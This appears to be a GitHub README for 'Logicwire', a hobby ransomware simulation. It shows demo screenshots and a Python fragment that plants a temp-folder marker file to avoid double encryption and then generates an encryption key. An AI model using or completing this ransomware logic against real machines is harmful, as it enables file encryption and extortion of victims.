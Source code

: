 <img src="https://media.discordapp.net/attachments/768928242467340328/811300430985560124/fond-geometrique-3d-noir-low-low-noir_79145-393.jpg"><br><br><img src="https://forthebadge.com/images/badges/built-with-love.svg" height="40" length="40"> <img src="https://forthebadge.com/images/badges/made-with-python.svg" height="40" length="40"> <img src="https://forthebadge.com/images/badges/fuck-it-ship-it.svg" height="40" length="40">
# Logicwire
Logicwire is a disguised version of ransomwares. It allows to simulate an attack, without being very dangerous.
# Victim POV
I put as unique folder the pit named "fichiers" because I did not have a windows vm.<br>
https://www.youtube.com/watch?v=y02J6HjoihA&feature=youtu.be&ab_channel=%26
# Attacker POV
<img src="https://media.discordapp.net/attachments/768928242467340328/811308563690684486/unknown.png?width=1154&height=670"><br>
<img src="https://media.discordapp.net/attachments/768928242467340328/811308892696739840/unknown.png?width=1443&height=386">
# Technical operation
It installs a .tmp signature in the Temp cache to avoid double encryption of files. And check if it is there, if he is present he only run the ransomware GUI.
```python3
tmp = str(tempfile.gettempdir())
signature = "cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5.tmp"
path = os.path.dirname(os.path.abspath(signature))
tmp_files = []
for root, dirs, files in os.walk(tmp):
        for file in files:
            tmp_files.append(file)

if signature in tmp_files:
        main()
else:
        file = open("cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5.tmp", "w").write("cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5")
        shutil.move(path + "\\" + signature, tmp + "\\" + signature)
        write_key()
        key = load_key()
```

